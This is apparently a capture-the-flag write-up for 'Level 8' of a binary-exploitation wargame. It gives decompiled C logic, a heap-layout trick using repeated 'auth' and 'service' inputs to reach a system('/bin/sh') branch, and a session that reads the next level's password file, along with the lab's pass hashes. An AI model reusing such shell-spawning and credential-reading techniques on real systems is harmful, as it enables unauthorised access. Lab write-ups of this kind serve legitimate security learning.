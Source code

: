 # Level 8
*pass: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9*

```
$ scp -P 4242 level8@192.168.56.108:level8 binary/
```

## Analyze

bool4 must be true

```
    while ((bool)bool3) {
      if (fd == 0) break;
      --fd;
      bool4 = *str_tmp < *cmp;
      bool3 = *str_tmp == *cmp;
      ++str_tmp;
      ++cmp;
    }
```

at the end of the loop str_tmp[i] must be < to cmp[i]

cmp = "login"
str = input

### Test

```
$ ./level8
login
Segmentation fault (core dumped)
```
condition pass


```
      if (auth[8] == 0) {
        fwrite("Password:\n",1,10,stdout);
      }
      else {
        system("/bin/sh");
      }
```

auth[8] must be different to '\0'

### Test

```
$ ./level8
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
